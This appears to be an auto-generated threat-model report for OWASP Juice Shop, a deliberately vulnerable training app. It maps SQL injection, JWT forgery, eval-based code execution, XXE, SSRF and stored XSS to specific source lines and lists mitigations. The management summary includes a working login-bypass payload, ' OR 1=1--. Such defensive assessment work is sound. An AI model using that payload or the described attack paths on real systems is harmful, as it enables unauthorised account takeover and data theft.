# Threat Model - Juice Shop

_Generated by appsec-advisor v0.4.0-beta (analysis v2)_


---

> | | |
> |---|---|
> | **Project** | Juice Shop v19.2.1 |
> | **Description** | Probably the most modern and sophisticated insecure web application |
> | **Author** | Björn Kimminich <bjoern.kimminich@owasp\.org> (https://kimminich.de) |
> | **License** | MIT |
> | **Repository** | https://github.com/juice-shop/juice-shop |
> | **Homepage** | https://owasp-`juice.shop` |
> | **Runtime** | Node\.js 20 - 24, Express 4 |
> | **Tags** | web security, web application security, webappsec, owasp, pentest, pentesting, security, vulnerable, vulnerability, broken, bodgeit, ctf, capture the flag, awareness |

---

## Changelog

_Append-only history of assessment runs. Most recent first._

| Version | Date | Mode | Depth | Reasoning | Baseline → Current | Δ Threats | Code | Note |
|--------|----------|--------|--------|--------------|------------------|----------------|--------|--------|
| v1 | 2026-06-13 | full | thorough | opus-cheap | _(initial)_ | +48 / ~0 / -0 | - | - |
| v1 | 2026-06-12 | full | standard | sonnet-economy | _(initial)_ | +60 / ~0 / -0 | - | - |

---

## Table of Contents

- [Management Summary](#management-summary)
- [Critical Attack Tree](#critical-attack-tree)
1. [System Overview](#1-system-overview)
   - [Scope](#scope)
2. [Architecture Diagrams](#2-architecture-diagrams)
   - [2.1 System Context](#21-system-context)
   - [2.2 Container Architecture](#22-container-architecture)
   - [2.3 Components](#23-components)
   - [2.4 Technology Architecture](#24-technology-architecture)
3. [Attack Walkthroughs](#3-attack-walkthroughs)
   - [3.1 JWT Algorithm Confusion - lib/insecurity.ts:191](#31-jwt-algorithm-confusion-libinsecurityts191)
   - [3.2 Systemic IDOR Missing Ownership Filter - routes/memory.ts:15](#32-systemic-idor-missing-ownership-filter-routesmemoryts15)
   - [3.3 Hardcoded RSA Private Key Enables Offline JWT Forgery for /…](#33-hardcoded-rsa-private-key-enables-offline-jwt-forgery-for)
   - [3.4 SQL Injection Authentication Bypass - routes/login.ts:34](#34-sql-injection-authentication-bypass-routeslogints34)
   - [3.5 SQL Injection - routes/search.ts:23](#35-sql-injection-routessearchts23)
   - [3.6 Server-Side Template Injection - routes/userProfile.ts:62](#36-server-side-template-injection-routesuserprofilets62)
   - [3.7 XML External Entity Injection - routes/fileUpload.ts:83](#37-xml-external-entity-injection-routesfileuploadts83)
   - [3.8 Server-Side Request Forgery - routes/profileImageUrlUpload.…](#38-server-side-request-forgery-routesprofileimageurlupload)
   - [3.9 Sandbox Escape - routes/b2bOrder.ts:23](#39-sandbox-escape-routesb2borderts23)
   - [3.10 Zip Slip Path Traversal - routes/fileUpload.ts:44](#310-zip-slip-path-traversal-routesfileuploadts44)
4. [Assets](#4-assets)
5. [Attack Surface](#5-attack-surface)
   - [5.1 Unauthenticated Entry Points (56)](#51-unauthenticated-entry-points-56)
   - [5.2 Authenticated Entry Points (53)](#52-authenticated-entry-points-53)
7. [Security Architecture](#7-security-architecture)
   - [7.1 Security Control Overview](#71-security-control-overview)
   - [7.2 Identity and Authentication Controls](#72-identity-and-authentication-controls)
   - [7.3 Session and Token Controls](#73-session-and-token-controls)
   - [7.4 Authorization Controls](#74-authorization-controls)
   - [7.5 Query Construction and Data Access Controls](#75-query-construction-and-data-access-controls)
   - [7.6 Input Boundary Validation Controls](#76-input-boundary-validation-controls)
   - [7.7 Output Encoding and Rendering Controls](#77-output-encoding-and-rendering-controls)
   - [7.8 Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls)
   - [7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection)
   - [7.10 File Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls)
   - [7.11 Operations Runtime and Supply Chain Controls](#711-operations-runtime-and-supply-chain-controls)
   - [7.12 Real-time and Not Applicable Controls](#712-real-time-and-not-applicable-controls)
   - [7.13 Defense-in-Depth Summary](#713-defense-in-depth-summary)
8. [Findings Register](#8-findings-register)
9. [Abuse Cases](#9-abuse-cases)
10. [Mitigation Register](#10-mitigation-register)
11. [Out of Scope](#11-out-of-scope)
- [Appendix: Run Statistics](#appendix-run-statistics)
- [Appendix A - Vektor Taxonomy](#appendix-a-vektor-taxonomy)

> _Section numbering is non-contiguous: §6 was retired in a prior revision. The remaining sections keep their original numbers so existing cross-references stay valid._

---

## Management Summary

### Verdict

🔴 Juice Shop is not production-ready. The public source repository commits the RSA private signing key and HMAC secret directly, meaning anyone with repo read access can forge admin JWTs offline before touching the application. SQL injection on the login route bypasses authentication entirely, two independent eval sinks grant arbitrary server-side code execution, and open registration accepts a `role:admin` field in the request body - four independent paths to full compromise, none requiring elevated starting privileges.

**Risk distribution:** 🔴 Critical: 10 · 🟠 High: 30 · 🟡 Medium: 6 · 🟢 Low: 2 · **Total: 48**


<br/>

**The three most dangerous attack paths in this codebase:**

<blockquote style="border-left: 3px solid #dc2626; background: #fef2f2; padding: 16px 20px; margin: 0;">

- **Offline admin JWT forgery** — `lib/insecurity.ts:23` commits the RS256 private key; `lib/insecurity.ts:191` accepts `alg:none`, letting an attacker mint a valid admin token without touching the server. *(🔴 [F-001](#f-001) — JWT Algorithm Confusion — lib/insecurity.ts:191, 🔴 [F-007](#f-007) — Hardcoded RSA Private Key Enables Offline JWT Forgery for /b2b/v2 Access — lib/insecurity.ts:23)*
- **Authentication bypass via SQL injection** — `routes/login.ts:34` interpolates `req.body.email` into a raw `sequelize.query()` call; the payload `' OR 1=1--` returns the first (admin) row and issues a session token. *(🔴 [F-008](#f-008) — SQL Injection Authentication Bypass — routes/login.ts:34)*
- **Arbitrary server-side code execution** — `routes/userProfile.ts:62` passes user-controlled username through `eval()`; `routes/b2bOrder.ts:23` uses `vm.runInContext(safeEval())` which can be escaped — two independent RCE sinks on authenticated routes. *(🔴 [F-010](#f-010) — Server-Side Template Injection — routes/userProfile.ts:62, 🔴 [F-013](#f-013) — Sandbox Escape — routes/b2bOrder.ts:23)*
- **Privilege escalation via open registration** — The registration endpoint accepts a `role` field in the POST body and the mass-assignment IDOR allows any user to set `role:admin` on their own or another account. *(🔴 [F-002](#f-002) — Systemic IDOR Missing Ownership Filter — routes/memory.ts:15, 🟠 [F-006](#f-006) — Sensitive REST Route Without Auth Middleware — server.ts:310)*
- **Session hijack via XSS and client-side token storage** — JWTs are stored in `localStorage` and four stored XSS vectors exist across the Angular SPA; any XSS payload immediately yields the session token and full account takeover. *(🟠 [F-004](#f-004) — SPA Without Backend-for-Frontend Token Storage — login.component.ts:101, 🔴 [F-017](#f-017) — Stored Cross-Site Scripting — about.component.ts:119, 🔴 [F-019](#f-019) — Stored Cross-Site Scripting — search-result.component.ts:132)*

</blockquote>

<br/>

Forty-eight findings are identified across five components. Three changes are prerequisites for any production readiness evaluation: rotate all committed secrets out of source, switch raw SQL queries to parameterized Sequelize calls, and remove `eval()` from user-controlled code paths.

**Attack-chain analysis.** 3 findings anchor 3 code-verified attack chains (see [§9](#9-abuse-cases) Abuse Cases): 🔴 [F-001](#f-001) — JWT Algorithm Confusion (`lib/insecurity.ts:191`), 🔴 [F-002](#f-002) — Systemic IDOR Missing Ownership Filter (`routes/memory.ts:15`), 🔴 [F-007](#f-007) — Hardcoded RSA Private Key Enables Offline JWT Forgery for `/b2b/v2` Access (`lib/insecurity.ts:23`). Their Critical/High ratings reflect exploitability confirmed end-to-end across the chain, not the individual weakness alone.

### Architectural Anti-Patterns

The defects below are structural - each spans multiple findings and requires a design change, not a point fix. See **[§7 Security Architecture](#7-security-architecture)** for the per-control detail.

- **SPA without BFF** — The Angular SPA stores the session JWT in localStorage after login, where any XSS payload can read it. No Backend-for-Frontend issues an HttpOnly Secure SameSite=Strict cookie, so the four stored XSS vectors in the SPA convert directly into full session takeover.
    - _Affected components:_ [C-01](#c-01)
    - _Findings:_ 🟠 [F-004](#f-004) — JWT stored in localStorage, 🔴 [F-017](#f-017) — Stored XSS bypassing Angular sanitizer

- **Secrets hardcoded in source** — The RSA private signing key, HMAC secret, and cookie secret are committed as string literals in `lib/insecurity.ts` in a public repository. Rotating application secrets requires a code change and a new deployment — there is no runtime injection path.
    - _Affected components:_ [C-02](#c-02)
    - _Findings:_ 🔴 [F-007](#f-007) — Hardcoded RSA private key in `lib/insecurity.ts`, 🔴 [F-001](#f-001) — JWT algorithm confusion accepting alg:none

- **Raw SQL string interpolation** — The login and product search routes bypass the Sequelize ORM and call `models.sequelize.query()` with user input concatenated directly into the query string. Both paths are unauthenticated entry points, so SQL injection requires no account.
    - _Affected components:_ [C-02](#c-02)
    - _Findings:_ 🔴 [F-008](#f-008) — SQL injection authentication bypass, 🔴 [F-009](#f-009) — SQL injection in product search

### Security Posture & Top Threats

**Figure 1 - Architecture & Top Threats**

Components grouped by architecture tier. **Grey** edges are the legitimate request backbone; **solid red** are attacks (each from a threat actor); **dotted red** are the consequence path onto the data tier or victim. Glyphs match Figure 2 and the Top Threats table.


```mermaid
%%{init: {"flowchart": {"defaultRenderer": "elk", "nodeSpacing": 34, "rankSpacing": 52, "padding": 10, "subGraphTitleMargin": {"top": 6, "bottom": 6}}} }%%
flowchart TB
    subgraph ZONE_ACTORS["External Actors"]
        direction LR
        EXT_SHOPUSER["fa:fa-user Shop User<br/><i>legitimate customer - XSS/CSRF target</i>"]:::actorgood
        ACT_INTERNET_ANON["fa:fa-user-secret Anonymous Internet Attacker<br/><i>incl. self-registered users - open registration makes authenticated ≈ anonymous</i>"]:::actorbad
    end

    subgraph CLIENT["Client Tier - browser"]
        CMP_ANGULAR_SPA["C-01 · Angular SPA<br/><i>🟠 9</i>"]:::comp
    end
    subgraph APP["Application Tier - Node / Express"]
        CMP_EXPRESS_BACKEND["C-02 · Express Backend<br/><i>🔴 5 🟠 15</i>"]:::comp
        CMP_FILE_UPLOAD_SERVICE["C-03 · File Upload Service<br/><i>🔴 3 🟠 3</i>"]:::comp
        CMP_B2B_API["C-04 · B2B REST API<br/><i>🔴 1 🟠 1</i>"]:::comp
    end
    subgraph DATA["Data Tier"]
        CMP_DATA_LAYER["C-05 · Data Layer<br/><i>🟠 2</i>"]:::comp
    end

    %% legitimate request flow
    EXT_SHOPUSER -->|"uses"| CMP_ANGULAR_SPA
    CMP_ANGULAR_SPA -->|"API calls"| CMP_EXPRESS_BACKEND
    CMP_EXPRESS_BACKEND -->|"reads/writes"| CMP_DATA_LAYER
    %% attacks (solid) - each originates at a threat actor; glyphs match Figure 2 / Top Threats
    ACT_INTERNET_ANON ==>|"① Injection ② Auth Bypass ③ Priv-Esc ④ RCE ⑤ Secret Exposure"| CMP_EXPRESS_BACKEND
    ACT_INTERNET_ANON ==>|"① ⑤"| CMP_FILE_UPLOAD_SERVICE
    ACT_INTERNET_ANON ==>|"④ ⑤"| CMP_B2B_API
    ACT_INTERNET_ANON ==>|"⑥ XSS"| CMP_ANGULAR_SPA
    %% propagation (dotted) - how the attack reaches the data tier / victim
    CMP_EXPRESS_BACKEND -.->|"① ② ⑤"| CMP_DATA_LAYER
    CMP_ANGULAR_SPA -.->|"⑥"| EXT_SHOPUSER
    %% invisible barycenter-balancing edges - center the client/data tiers under the app row (no glyph, no linkStyle → rendered as no line)
    CMP_FILE_UPLOAD_SERVICE ~~~ CMP_DATA_LAYER
    CMP_B2B_API ~~~ CMP_DATA_LAYER
    CMP_ANGULAR_SPA ~~~ CMP_FILE_UPLOAD_SERVICE
    CMP_ANGULAR_SPA ~~~ CMP_B2B_API

    style CLIENT fill:none,stroke:#475569,stroke-width:1.5px,stroke-dasharray:5
    style APP fill:none,stroke:#b71c1c,stroke-width:2px,stroke-dasharray:5
    style DATA fill:none,stroke:#475569,stroke-width:1.5px,stroke-dasharray:5
    style ZONE_ACTORS fill:none,stroke:#94a3b8,stroke-width:1.5px,stroke-dasharray:5
    classDef comp fill:#eef2f7,stroke:#334155,color:#0f172a,stroke-width:1.5px
    classDef compmuted fill:#f8fafc,stroke:#cbd5e1,color:#64748b,stroke-width:1px,font-size:9px
    classDef ext  fill:#ffffff,stroke:#94a3b8,color:#334155,stroke-width:1.5px
    classDef actorbad  fill:#fde8e8,stroke:#b71c1c,color:#7f0000,stroke-width:2px
    classDef actorgood fill:#e8f1ea,stroke:#2e7d32,color:#1b5e20,stroke-width:1.5px
    linkStyle 0,1,2 stroke:#6b7280,stroke-width:1.5px
    linkStyle 3,4,5,6 stroke:#b71c1c,stroke-width:2.5px
    linkStyle 7,8 stroke:#b71c1c,stroke-width:1.5px,stroke-dasharray:5
```

_Threats: ① Injection · ② Auth Bypass · ③ Priv-Esc · ④ RCE · ⑤ Secret Exposure · ⑥ XSS_

_Component badge: 🔴 = number of Critical findings on the component · 🟠 = number of High findings. Components with no Critical/High finding carry no badge._

**Figure 2 - Risk Flow: Actor → Tier → Impact**

Heatmap: **actors** (left) → **architecture tiers** (middle, Client → Application → Data) → **impact** (right). Numbered red arrows ①–⑥ are the threats enumerated in the Top Threats table below. Self-registration is open, so the **Authenticated Internet Attacker** tier is one POST away from anonymous - it is shown distinctly because a post-login endpoint is still a different attack surface.


```mermaid
%%{init: {"flowchart": {"defaultRenderer": "elk", "nodeSpacing": 45, "rankSpacing": 95}} }%%
flowchart LR
    subgraph ACTORS[" "]
        direction TB
        HDR_A["<b>Threat Actors</b>"]:::columnHeader
        ANON(["fa:fa-user-secret Anonymous Internet Attacker"]):::actorAnon
        INTERNET_USER(["fa:fa-user-secret Authenticated Internet Attacker"]):::actorAnon
    end

    subgraph TIERS[" "]
        direction TB
        HDR_T["<b>Architecture Tiers</b>"]:::columnHeader
        BROWSER["Client Tier<br/>C-01 Angular SPA"]:::tierClient
        SERVER["Application Tier<br/>C-02 Express Backend · C-03 File Upload Service · C-04 B2B REST API"]:::tierApp
        DATA["Data Tier<br/>C-05 Data Layer"]:::tierData
    end

    subgraph IMPACT[" "]
        direction TB
        HDR_I["<b>Business Impact</b>"]:::columnHeader
        CUSTOMER_SESSION_HIJACK[["🟠 Customer Session Hijack"]]:::impact
        FULL_ADMIN_TAKEOVER[["🔴 Full Admin Takeover"]]:::impact
        FULL_SERVER_COMPROMISE[["🔴 Full Server Compromise"]]:::impact
        CUSTOMER_DATA_EXFILTRATION[["🔴 Customer Data Exfiltration"]]:::impact
    end

    %% Invisible alignment hints. Two purposes:
    %%   (a) keep per-component alignment edges (e.g. ANON --- SERVER) so the
    %%       forward attack arrows route horizontally without crossing tier
    %%       boxes (the diagram is forward-only: actor → tier → impact, no
    %%       backward relay edges into the actor column);
    %%   (b) chain the three column headers (HDR_A, HDR_T, HDR_I) across
    %%       subgraph boundaries so ELK pins them on the same Y line.
    HDR_A --- HDR_T
    HDR_T --- HDR_I
    ANON --- SERVER

    %% Attack arrows
    ANON ==>|" ① ② ③ ⑤  "| SERVER
    INTERNET_USER ==>|" ④  "| SERVER
    ANON ==>|" ⑥  "| BROWSER

    %% Consequence arrows (tier → business impact, all LR-forward)
    SERVER -.-> CUSTOMER_DATA_EXFILTRATION
    SERVER -.-> FULL_ADMIN_TAKEOVER
    SERVER -.-> FULL_SERVER_COMPROMISE
    BROWSER -.-> CUSTOMER_SESSION_HIJACK

    %% Subgraph frames invisible - column headers are emitted as the
    %% FIRST node of each subgraph (HDR_A / HDR_T / HDR_I) and pinned
    %% on the same Y line by the cross-subgraph alignment edges above.
    style ACTORS fill:none,stroke:none
    style TIERS  fill:none,stroke:none
    style IMPACT fill:none,stroke:none

    classDef tierClient fill:#f2f2f2,stroke:#424242,color:#111,stroke-width:2px,font-size:12px
    classDef tierApp    fill:#f2f2f2,stroke:#424242,color:#111,stroke-width:2px,font-size:12px
    classDef tierData   fill:#f2f2f2,stroke:#424242,color:#111,stroke-width:2px,font-size:12px

    classDef actorAnon     fill:#f3dada,stroke:#b71c1c,color:#7f0000,stroke-width:2px,font-size:12px
    classDef actorShopUser fill:#e8f1ea,stroke:#2e7d32,color:#1b5e20,stroke-width:2px,font-size:12px
    classDef impact        fill:#0f172a,stroke:#000,color:#fff,stroke-width:3px,font-size:12px

    classDef columnHeader  fill:none,stroke:none,color:#111,font-size:14px

    linkStyle 0,1,2     stroke:transparent,stroke-width:0px
    linkStyle 3,4,5     stroke:#b71c1c,stroke-width:3px
    linkStyle 6,7,8,9     stroke:#6b7280,stroke-width:1.5px,stroke-dasharray:4

```

**Threat actors.** The actors below drive the numbered attack paths in the figures above; the Shop User is the *victim* of client-side attacks (XSS / CSRF), not an attacker.

- **Shop User** — legitimate customer; target of client-side attacks; target of ⑥ Output Encoding / Cross-Site Scripting.
- **Anonymous Internet Attacker** — no account; registers in seconds when needed; drives ① Insecure Query Construction & Data Access, ② Hardcoded Secrets & Weak Cryptography, ③ Broken Authorization & Access Control, ⑤ Sensitive File & Secret Exposure.
- **Authenticated Internet Attacker** — owns a regular account; logged in; drives ④ Remote Code Execution (unsafe eval).

**6 structural threats**, grouped by weakness class - each row is one threat, not one finding. *Threat Description* states the general architectural weakness (STRIDE in brackets); *Findings* lists the concrete instances, each linked to [§8 Findings Register](#8-findings-register) with its component; *Risk & Impact* combines severity with business consequence.

| # | Threat Description | Findings (→ Component) | Risk & Impact | Fix |
|---|------------------------------------|------------------------------------------------|------------------------------------|--------|
| <a id="path-injection"></a>① | **Insecure Query Construction & Data Access** _(T·I)_<br/>User-controlled input is concatenated into raw SQL queries and a NoSQL selector without parameterization, allowing unauthenticated authentication bypass and data exfiltration. | <span style="white-space:nowrap">🔴&nbsp;[F-008](#f-008)</span> - SQL Injection Authentication Bypass (`routes/login.ts:34`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-009](#f-009)</span> - SQL Injection (`routes/search.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-011](#f-011)</span> - XML External Entity Injection (`routes/fileUpload.ts:83`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-021](#f-021)</span> - NoSQL Mass-Update Injection (`routes/trackOrder.ts:18`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span> | 🔴 **Critical**<br/>Customer Data Exfiltration · Full Admin Takeover | <span style="white-space:nowrap">❶ [M-008](#m-008)</span> — Use parameterized database queries<br/><span style="white-space:nowrap">❶ [M-009](#m-009)</span> — Use parameterized database queries |
| <a id="path-auth-bypass"></a>② | **Hardcoded Secrets & Weak Cryptography** _(S·E)_<br/>The RSA private key and HMAC secret are committed in plaintext to the public repository; any reader can mint valid admin session tokens offline or exploit the JWT algorithm-confusion path that accepts `alg:none`. | <span style="white-space:nowrap">🔴&nbsp;[F-001](#f-001)</span> - JWT Algorithm Confusion (`lib/insecurity.ts:191`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-007](#f-007)</span> - Hardcoded RSA Private Key Enables Offline JWT Forgery for `/b2b/v2` Access (`lib/insecurity.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-015](#f-015)</span> - OAuth Implicit Flow with Derived Predictable Password (`oauth.component.ts:30`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-016](#f-016)</span> - JWT decode used without signature verification (`lib/insecurity.ts:58`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-029](#f-029)</span> - Weak Password Hashing (`models/user.ts:77`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-042](#f-042)</span> - Container images not signed no cosign or build-provenance attestation - :1 <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span> | 🔴 **Critical**<br/>Full Admin Takeover · Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-001](#m-001)</span> — Enforce JWT signature and algorithm verification<br/><span style="white-space:nowrap">❶ [M-007](#m-007)</span> — Move cryptographic keys to a managed secret store |
| <a id="path-privilege-escalation"></a>③ | **Broken Authorization & Access Control** _(E·I)_<br/>Open registration and missing server-side authorization checks allow any self-registered user to elevate to admin role through mass-assignment or unguarded admin API routes. | <span style="white-space:nowrap">🔴&nbsp;[F-002](#f-002)</span> - Systemic IDOR Missing Ownership Filter (`routes/memory.ts:15`) <span style="white-space:nowrap">→&nbsp;[C-00](#c-00)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-005](#f-005)</span> - GitHub Actions Workflow Missing Permissions Block (`ci.yml:1`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-006](#f-006)</span> - Sensitive REST Route Without Auth Middleware (`server.ts:310`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-036](#f-036)</span> - Client-Side-Only Admin and Accounting Route Guards (`app.guard.ts:52`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-037](#f-037)</span> - Unauthenticated Order Tracking IDOR (`track-result.component.ts:45`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-038](#f-038)</span> - Missing Ownership Check Allows Horizontal Privilege Escalation in Review Update (`routes/updateProductReviews.ts:16`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span> | 🔴 **Critical**<br/>Full Admin Takeover | <span style="white-space:nowrap">❶ [M-002](#m-002)</span> — Enforce object-level (ownership) authorization<br/><span style="white-space:nowrap">❷ [M-005](#m-005)</span> — Apply least-privilege permissions |
| <a id="path-remote-code-execution"></a>④ | **Remote Code Execution (unsafe eval)** _(E)_<br/>Two independent eval-based sinks on authenticated routes allow arbitrary server-side JavaScript execution: the profile username field passes through `eval()` and the B2B order endpoint uses an escapable sandbox. | <span style="white-space:nowrap">🔴&nbsp;[F-010](#f-010)</span> - Server-Side Template Injection (`routes/userProfile.ts:62`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-013](#f-013)</span> - Sandbox Escape (`routes/b2bOrder.ts:23`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span> | 🔴 **Critical**<br/>Full Server Compromise · Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-010](#m-010)</span> — Remove server-side evaluation of untrusted input<br/><span style="white-space:nowrap">❶ [M-013](#m-013)</span> — Remove server-side evaluation of untrusted input |
| <a id="path-sensitive-data-exposure"></a>⑤ | **Sensitive File & Secret Exposure** _(I)_<br/>Encryption keys, FTP files, and server access logs are served without authentication; XXE and SSRF let an unauthenticated attacker read arbitrary server-side files and internal resources. | <span style="white-space:nowrap">🔴&nbsp;[F-011](#f-011)</span> - XML External Entity Injection (`routes/fileUpload.ts:83`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-012](#f-012)</span> - Server-Side Request Forgery (`routes/profileImageUrlUpload.ts:24`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🔴&nbsp;[F-014](#f-014)</span> - Zip Slip Path Traversal (`routes/fileUpload.ts:44`) <span style="white-space:nowrap">→&nbsp;[C-03](#c-03)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-028](#f-028)</span> - Sensitive Files Publicly Browsable (`server.ts:277`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-030](#f-030)</span> - Access Log Public Exposure (`server.ts:281`) <span style="white-space:nowrap">→&nbsp;[C-02](#c-02)</span><br/><span style="white-space:nowrap">🟡&nbsp;[F-041](#f-041)</span> - Raw Internal Error Messages Leaked to Caller (`routes/b2bOrder.ts:33`) <span style="white-space:nowrap">→&nbsp;[C-04](#c-04)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-048](#f-048)</span> - Data disclosure (`challenges.yml:1381`) <span style="white-space:nowrap">→&nbsp;[C-05](#c-05)</span> | 🔴 **Critical**<br/>Customer Data Exfiltration | <span style="white-space:nowrap">❶ [M-011](#m-011)</span> — Disable XML external entity (XXE) resolution<br/><span style="white-space:nowrap">❶ [M-012](#m-012)</span> — Validate and allowlist outbound request targets |
| <a id="path-cross-site-scripting"></a>⑥ | **Output Encoding / Cross-Site Scripting** _(T·I)_<br/>Four stored XSS vectors bypass Angular's default sanitization via bypassSecurityTrustHtml; combined with JWT storage in localStorage, any payload yields full session takeover. | <span style="white-space:nowrap">🟠&nbsp;[F-004](#f-004)</span> - SPA Without Backend-for-Frontend Token Storage (`login.component.ts:101`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-017](#f-017)</span> - Stored Cross-Site Scripting (`about.component.ts:119`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-018](#f-018)</span> - Stored XSS (`last-login-ip.component.ts:39`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-019](#f-019)</span> - Stored Cross-Site Scripting (`search-result.component.ts:132`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-020](#f-020)</span> - Reflected Cross-Site Scripting (`search-result.component.ts:170`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span><br/><span style="white-space:nowrap">🟠&nbsp;[F-022](#f-022)</span> - DOM-Write of Raw User Data Export (`data-export.component.ts:71`) <span style="white-space:nowrap">→&nbsp;[C-01](#c-01)</span> | 🟠 **High**<br/>Customer Session Hijack | <span style="white-space:nowrap">❷ [M-004](#m-004)</span> — Store session tokens in HttpOnly, Secure cookies<br/><span style="white-space:nowrap">❷ [M-017](#m-017)</span> — Encode output instead of bypassing the framework sanitizer |

_STRIDE: S spoofing · T tampering · R repudiation · I information disclosure · D denial of service · E elevation of privilege. Risk, findings, components, impact and Fix are derived deterministically; only the one-line weakness description is authored._

**Verified attack chains.** 3 fully viable ([AC-T-003](#ac-t-003), [AC-T-004](#ac-t-004), [AC-T-005](#ac-t-005)); 2 partially blocked ([AC-T-001](#ac-t-001), [AC-T-006](#ac-t-006)). These chains combine individual findings into end-to-end exploitation paths verified step-by-step against the code - see [§9 Abuse Cases](#9-abuse-cases) for the per-step breakdown and blocking mitigations.

### Top Mitigations

Highest-impact P1/P2 mitigations - 10 of 40 qualifying (88 total). Full detail in [§10 Mitigation Register](#10-mitigation-register). All 10 mitigation(s) that fix a Critical finding are always listed here.

| # | Component | Mitigation | Addresses | Effort |
|---|----------------------|------------------------------------------------|------------------------------------------------|------|
| **1** | [C-02](#c-02) — Express Backend | ❶ [M-008](#m-008) — Use parameterized database queries | 🔴 [F-008](#f-008) — SQL Injection Authentication Bypass (`routes/login.ts`) | Low |
| **2** | [C-02](#c-02) — Express Backend | ❶ [M-009](#m-009) — Use parameterized database queries | 🔴 [F-009](#f-009) — SQL Injection (`routes/search.ts`) | Low |
| **3** | [C-02](#c-02) — Express Backend | ❶ [M-001](#m-001) — Enforce JWT signature and algorithm verification | 🔴 [F-001](#f-001) — JWT Algorithm Confusion (`lib/insecurity.ts`) | Medium |
| **4** | [C-02](#c-02) — Express Backend | ❶ [M-007](#m-007) — Move cryptographic keys to a managed secret store | 🔴 [F-007](#f-007) — Hardcoded RSA Private Key Enables Offline JWT Forgery for `/b2b/v2` Access (`lib/insecurity.ts`) | Medium |
| **5** | [C-02](#c-02) — Express Backend | ❶ [M-010](#m-010) — Remove server-side evaluation of untrusted input | 🔴 [F-010](#f-010) — Server-Side Template Injection (`routes/userProfile.ts`) | Medium |
| **6** | [C-03](#c-03) — File Upload Service | ❶ [M-011](#m-011) — Disable XML external entity (XXE) resolution | 🔴 [F-011](#f-011) — XML External Entity Injection (`routes/fileUpload.ts`) | Low |
| **7** | [C-03](#c-03) — File Upload Service | ❶ [M-014](#m-014) — Constrain file paths to a safe base directory | 🔴 [F-014](#f-014) — Zip Slip Path Traversal (`routes/fileUpload.ts`) | Low |
| **8** | [C-03](#c-03) — File Upload Service | ❶ [M-012](#m-012) — Validate and allowlist outbound request targets | 🔴 [F-012](#f-012) — Server-Side Request Forgery (`routes/profileImageUrlUpload.ts`) | Medium |
| **9** | [C-04](#c-04) — B2B REST API | ❶ [M-013](#m-013) — Remove server-side evaluation of untrusted input | 🔴 [F-013](#f-013) — Sandbox Escape (`routes/b2bOrder.ts`) | High |
| **10** | backend-api | ❶ [M-002](#m-002) — Enforce object-level (ownership) authorization | 🔴 [F-002](#f-002) — Systemic IDOR Missing Ownership Filter (`routes/memory.ts`) | Medium |

*30 additional P1/P2 mitigations capped from the leader-board · 48 P3 backlog items in [§10 Mitigation Register](#10-mitigation-register). Sorted by priority (P1 first), then component, then leverage (most findings first), severity (Critical first), and effort (Low first).*

### Operational Strengths

Operational controls rated Adequate or Partial - grouped into broad clusters (full per-control breakdown in [§7](#7-security-architecture)). Clusters demoted to Weak by open Critical/High findings appear in [§7](#7-security-architecture) instead, not here.

<table style="table-layout:fixed;width:100%">
<colgroup><col style="width:18%"><col style="width:28%"><col style="width:13%"><col style="width:30%"><col style="width:11%"></colgroup>
<thead><tr><th>Strength</th><th>What's in Place</th><th>Effectiveness</th><th>Gap</th><th>Mitigates</th></tr></thead>
<tbody>
